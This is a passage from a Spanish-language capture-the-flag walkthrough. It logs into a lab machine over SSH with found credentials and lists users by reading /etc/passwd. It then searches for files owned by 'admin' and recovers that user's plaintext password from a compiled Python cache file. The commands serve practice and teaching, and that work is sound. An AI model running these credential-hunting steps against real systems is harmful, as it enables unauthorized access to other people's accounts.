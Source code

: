 Veremos que nos ha encontrado las credenciale correctas, por lo que vamos a conectarnos por `SSH` de esta forma.

### SSH

```shell
ssh dev@<IP>
```

Metemos como contraseña `computer` y veremos que estamos dentro.

## Escalate user admin

Si listamos los usuarios que hay en el sistema de esta forma:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
dev:x:1000:1000::/home/dev:/bin/bash
admin:x:1001:1001::/home/admin:/bin/bash
```

Veremos que hay otro usuario llamado `admin` vamos a ver con un `find` si hay algun archivo interesante bajo el usuario `admin` que nosotros podamos leer.

```shell
find / -user "admin" 2>/dev/null
```

Info:

```
/opt/scripts/__pycache__/secret.cpython-38.pyc
/home/admin
/home/admin/.profile
/home/admin/.bash_history
/home/admin/.bash_logout
/home/admin/.bashrc
```

Veremos varias cosas interesantes, entre ellas omitiendo la `/home` de dicho usuario, podremos ver un script muy interesante el cual vamos a leer a ver que contiene.

```python
U
�2h`�@s
       dd�ZdS)cCsd}d}td�dS)NZadminz
                                   p@$$w0r8321zAuthenticating...)�print)usernamepassword�r�     secret.py�authsrN)rrrrr<module>�
```

Vemos que nos lo da un poco raro, por lo que haremos esto:

```shell
strings /opt/scripts/__pycache__/secret.cpython-38.pyc
```
